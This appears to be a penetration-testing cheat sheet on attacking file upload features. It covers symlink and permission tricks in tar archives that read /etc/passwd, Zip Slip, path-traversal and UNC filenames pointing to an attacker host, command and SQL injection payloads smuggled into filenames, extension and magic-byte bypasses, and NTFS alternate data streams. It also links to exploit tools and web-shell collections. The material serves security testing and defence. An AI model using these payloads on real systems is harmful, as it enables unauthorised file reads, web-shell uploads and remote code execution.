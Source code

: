 # Abuse archives

There are weaknesses that exist when a file upload functionality accepts and extracts archives without proper security measures in place.

## Abusing symlinks

`tar` and `zip` allow you to include symlinks in tarballs/archives they generated. If an application does not properly validate the content of the archives, it can lead to arbitrary reading/writing of files.

References:
- [Report: Read files on application server, leads to RCE](https://hackerone.com/reports/178152)

## Abusing tar permissions

If an application uses Unix `tar` command to extract `.tar` files, removes symlinks and accesses subdirectory directly, you can try to bypass the symlink removing process with tar permissions. Unix `tar` command preserves the unix permissions assigned to it while creating the archive. If you create a parent directory which no one have read permissions (set chmod to `300`) while creating the subdirectory with the complete permissions (set the chmod to `700`), you can include symlinks inside the subdirectory that will not be found during the symlink removing process, but will be found when accessing directly since the subdirectory has read permissions.

```bash
$ mkdir parent
$ cd parent
$ tar cf a.tar . --mode=300
$ mkdir sub
$ cd sub
$ ln -s /etc/passwd file.txt
$ cd ..
$ tar -rf a.tar sub
```

{% embed url="https://gitlab.com/gitlab-org/gitlab-foss/-/issues/55501" %}

## Zip Slip

The Zip Slip takes advantage of zips that may contain files with specifically placed payloads set to the names, that once extracted, lead to a path traversal, and can write any file to any directory the webserver has access to. It can affect numerous archive formats, including `tar`, `jar`, `war`, `cpio`, `apk`, `rar` and `7z`. 

{% embed url="https://github.com/ptoomey3/evilarc" %}

{% embed url="https://github.com/snyk/zip-slip-vulnerability" %}

# Abuse filename

## Path as filename

Try to use different kinds of path as a filename:
- Absolute path, for example `filename=/etc/passwd`
- Relative path, for example `filename=../../../../../../etc/passwd`
- UNC path, for example `filename=\\attacker-website.com\file.png`

## Injections via filename

Try to exploit command injection or sqli via filename, for example `a$(whoami)z.png`, ```a`whoami`z.png``` or `a';select+sleep(10);--z.png`

# Bypass restrictions

## Content-Type

Try to change a Content-Type value:
- Allowed MIME-type + disallowed extension
- Disallowed MIME-type + allowed extension
- Remove Content-Type.

## Magic bytes

If an application use a file's magic bytes to deduce the Content-type, you can try to bypass security measures by forging the magic bytes of an allowed file. For example, if GIF images are allowed, you can forge a GIF image's magic bytes `GIF89a` to make the server think we are sending it a valid GIF.

References:
- [Full list of known file magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)

## Extension

Try to change a file extension:
- Less-common extension, such as `.phtml`
- Double extension, such as `.jpg.svg` or `.svg.jpg`
- Extension with a delimeter, such as `\n`, `\t`, `\r`, `\0`, etc. For example, `file.png%00.svg` or `file.png\x0d\x0a.svg`
- Empty extension, for example `file.`
- Extension with varied capitalization, such as `.sVG`
- Try to cut allowed extension with max filename length.
- Empty filename, for example `.svg`

## Invalid regex

- [CVE-2018-14364: How did I find a bug in Gitlab project import and got shell access](https://blog.nyangawa.me/security/CVE-2018-14364-Gitlab-RCE/)

## Windows dots

Within Windows, when a file is created with a trailing full-stop, the file is saved **without** said trailing character, leading to potential blacklist bypasses on Windows file uploads.

For example, if an application is rejecting files that end in `.aspx`, you can upload a file called `shell.aspx.`. Now this filename will bypass the blacklist, as `.aspx != .aspx.`, but upon saving the file to the server, Windows will cut out the trailing `.`, leaving `shell.aspx`.

## Windows ADS

An Alternate Data Stream (ADS) is a little-known feature of the NTFS file system. It has the ability of forking data into an existing file without changing its file size or functionality. In other words, ADS allows you to hide a file inside another one.

The following example hides copy of `calc.exe` inside `file.txt`:

```
C:> echo Somedata > file.txt
C:> type file.txt
Somedata
C:> type c:\windows\system32\calc.exe > file.txt:calc.exe
```

To start the hidden `calc.exe` copy, you can run the following command:

```
C:> start c:\file.txt:calc.exe
```

References:
- [NTFS ALTERNATE DATA STREAMS: THE GOOD AND THE BAD](https://blog.foldersecurityviewer.com/ntfs-alternate-data-streams-the-good-and-the-bad/)

# Third-party vulnerabilities

## Vulnerabilities in image processors

{% embed url="https://github.com/barrracud4/image-upload-exploits" %}

### SVG

{% embed url="https://github.com/allanlw/svg-cheatsheet" %}

## FFmpeg

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/web-application/server-side-request-forgery#ffmpeg" %}

## ExifTool

ExifTool versions 7.44 through 12.23 inclusive are vulnerable to a local command execution vulnerability when processing djvu files. If an application is accepting uploaded files, which are passed to ExifTool, it can lead to RCE.

References:
- [Report: RCE when removing metadata with ExifTool](https://hackerone.com/reports/1154542)
- [Writeup: ExifTool CVE-2021-22204 - Arbitrary Code Execution](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)

# Configuration files

Some servers/frameworks work with configuration files at runtime to define various settings and restrictions. The most famous examples are the the Apache httpd/Tomcat `.htaccess` and the ASP.NET/IIS `web.config` files. You can check your server/framework and try to upload particular config to bypass some security measures.

References:
- [Writeup: Bypass file upload filter with .htaccess](https://thibaud-robin.fr/articles/bypass-filter-upload/)
- [HTSHELLS - Self contained web shells and other attacks via .htaccess files](https://github.com/wireghoul/htshells)
- [Upload a web.config File for Fun & Profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

# References

- [Zip Slip Vulnerability](https://snyk.io/research/zip-slip-vulnerability)
- [SecurityTips: File upload bugs](https://github.com/hackerscrolls/SecurityTips/blob/master/MindMaps/File_upload_bugs.png)
- [File Upload Vulnerability Tricks And Checklist](https://www.onsecurity.io/blog/file-upload-checklist/)
